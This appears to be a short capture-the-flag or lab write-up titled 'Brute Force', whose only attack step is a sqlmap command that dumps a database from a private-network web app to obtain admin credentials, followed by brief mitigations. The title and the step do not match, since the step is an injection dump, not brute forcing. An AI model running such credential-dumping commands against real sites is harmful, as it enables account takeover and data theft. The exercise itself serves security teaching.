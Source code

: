 #Brute Force

It's possible for an attacker to brute force the sign in form

## Table of Contents

- [Steps](#Steps)
- [Vulnerablities](#Vulnerabilities)
- [Secure](#Ways to secure)

### Steps
Open your terminal

Run
```bash
sqlmap "http://192.68.0.106/index.php?page=member&id=1&Submit=Submit#" --dump -D Member_Brute_Force
```
You'll receive 2 admin account credentials

Log in using the credentials
<img src="https://i.imgur.com/OSQQBkT.png" />

####Vulnerablilities
An attacker can obtain sensitive data such as user passwords or pins in such cases.

####Ways to secure
Ensure clients use strong complex passwords.
Limit the amount requests a client can create
Setup an endless SSH Honeypot
